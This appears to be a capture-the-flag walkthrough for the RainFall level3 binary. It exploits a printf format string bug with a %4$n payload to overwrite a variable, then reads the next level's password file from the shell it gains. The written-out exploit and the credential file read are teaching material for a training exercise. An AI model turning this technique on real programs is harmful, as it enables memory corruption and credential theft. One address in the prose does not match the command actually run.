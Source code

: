 # Walkthrough

**Main** : 
Exploiting a vulnerability in `printf` to change the value of a variable  `m` 
To tell `printf` to write the number of characters printed to a specified address, you can use the `%n` format specifier. However, to specify the address, you need to use the `%[number]$n` modifier. 
This modifier takes an argument specifying the position of the address on the stack. 
 The format string vulnerability allows  to modify the value at the specified address.

**Process**:  
> 1.  Found the address of the variable `m` using  debugging tools. 
> 2. Find  buffer  position on the stack.
>2.  Create the Payload, the payload will consist of multiple components:    
    -   Padding to reach the position on the stack where `%n` is expected.
    -   The format specifier `%[number]$n`, where `[number]` 
    -  Inject the Payload,  provide the payload as input to the program, which will then be used by `printf` to construct the output. 



##  The address of the variable `m` using GDB
```
level2@RainFall:~$ gdb ./level2 
...
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x804988c
(gdb) 

````


##  Position of a buffer on the stack
We ging to use printf to fnd the position of buffe on the stack
By using the %x format string vulnerability to print memory address on the stack I give printf the follow string `aaaaaa %x %x %x %x %x %x` the %x it telling to printf to print memory content <br/>
Buffer content `aaaaaa` is at the 4th position `61616161`.


```
level3@RainFall:~$ python -c 'print "aaaaaa" + " %x" * 6' | ./level3 
aaaaaa 200 b7fd1ac0 b7ff37d0 61616161 25206161 78252078

```



## Payload


The modifier %n will write the number of bytes specified in the choosen address.  
The command  `python -c 'print "\x8c\x95\x08\x08" + "\x90" * 60 + "%4$n"' > /tmp/payload`  
creates a format string attack that aims to modify a variable using the %n  
The  `%4$n`  specifier tells printf to treat the argument at the 4th position as an address to write the number of characters printed


**1. Create Payload**
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "\x90" * 60 + "%4$n"' > /tmp/payload
```

**2. load payload** 
```
level3@RainFall:~$ cat /tmp/payload - | ./level3 
�������������������������������������������������������������
Wait what?!

cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
